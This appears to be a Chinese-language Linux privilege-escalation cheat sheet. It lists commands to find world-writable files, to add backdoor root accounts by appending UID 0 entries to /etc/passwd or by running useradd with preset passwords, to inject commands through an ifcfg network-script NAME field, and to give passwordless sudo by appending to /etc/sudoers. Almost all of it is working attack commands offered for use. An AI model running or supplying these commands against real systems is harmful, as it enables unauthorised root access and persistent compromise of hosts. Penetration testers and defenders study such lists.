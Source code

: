 #### 列出系统中可写文件
  	>find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
	>find / -perm -2 -type f 2>/dev/null
	>find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
#### passwd文件
	$ls –lh /etc/passwd 若是任何用户可读写
	$perl -le 'print crypt("password@123","addedsalt")' 生成密码或php -r "print(crypt('aarti','123') . \"\n\");"或python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
	$echo "test:advwtv/9yU5yQ:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
	一条命令添加root用户
	>useradd -p `openssl passwd -1 -salt 'user' 123qwe` -u 0 -o -g root  -G root -s /bin/bash -d /home/user venus
	用户名venus 密码123qwe
	>useradd newuser;echo "newuser:password"|chpasswd
	>echo "admin:x:0:0::/:/bin/sh" >> /etc/passwd
	>passwd admin修改密码
	或
	>useradd newuser;echo "newuser:password"|chpasswd
	>useradd -p `openssl passwd 123456` guest
	>useradd -p "$(openssl passwd 123456)" guest
	>useradd newuwer;echo -e "123456\n123456\n" |passwd newuser
#### /etc/sysconfig/network-scripts/
  	NAME=Network /bin/id  &lt;= 注意空格
	ONBOOT=yes
	DEVICE=eth0

	EXEC :
	./etc/sysconfig/network-scripts/ifcfg-1337
#### sudoers
  	echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

	无需密码使用sudo
	echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
	echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers